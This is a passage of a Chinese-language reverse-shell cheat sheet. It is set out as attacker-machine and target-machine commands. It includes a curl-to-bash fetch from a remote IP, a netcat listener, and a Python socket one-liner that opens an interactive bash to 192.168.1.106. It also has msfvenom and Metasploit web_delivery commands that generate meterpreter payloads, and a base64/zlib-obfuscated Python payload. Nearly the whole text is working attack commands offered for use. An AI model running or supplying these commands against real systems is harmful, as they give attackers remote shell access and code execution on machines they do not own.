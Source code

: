 **靶机**

```bash
curl 139.155.49.43:8000|bash
```

## Python

**攻击机**

```bash
nc -lvvp 9999
```

**靶机**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.106",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'#bash可改为sh或zsh
```

### 通过Msfvenom生成python反弹shell的payload

**攻击机**

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=9999 -f raw

msfconsole
msf6 > handler -p python/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机**

将msfvenom弹出的payload放进来执行，前面加上python3 -c，将payload用""括起来。

```bash
python3 -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/ordMMBvapZbdxQoiHkREcPcmIm06amiahCSrVfG/29DFOczwZt68+VCjsz7mwcoBI//WquNdG7CueIj+KCOPakTyan0+5crkvjVvCGXBdiSL/mv2WWiWZrEEWPMT3j9c373sD483V/cs8YS0xqCMALTcrkVZb0QpyqKmfDsbS5zOYzuQDCeJLibxNF0EjejgnBHdLEuJo3GtHIBe3lIehEf5ARVjT8Uz6ZsT1ox8viuNuUYDPbvQs1x/9l9dLWlGcEIJ6W7Ro7Sj8xgCLC8QXV2lZI+JyX9ooLvwy8gfLF1fRQ==')[0])))"
```

### 通过msf的Web delivery反弹shell

**攻击机**

```bash
msfconsole
msf6 > use exploit/multi/script/web_delivery
msf6 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lport 9999
msf6 exploit(multi/script/web_delivery) > set lhost 192.168.1.106
msf6 exploit(multi/script/web_delivery) > set srvhost 192.168.1.106
msf6 exploit(multi/script/web_delivery) > run
#会弹出payload
```
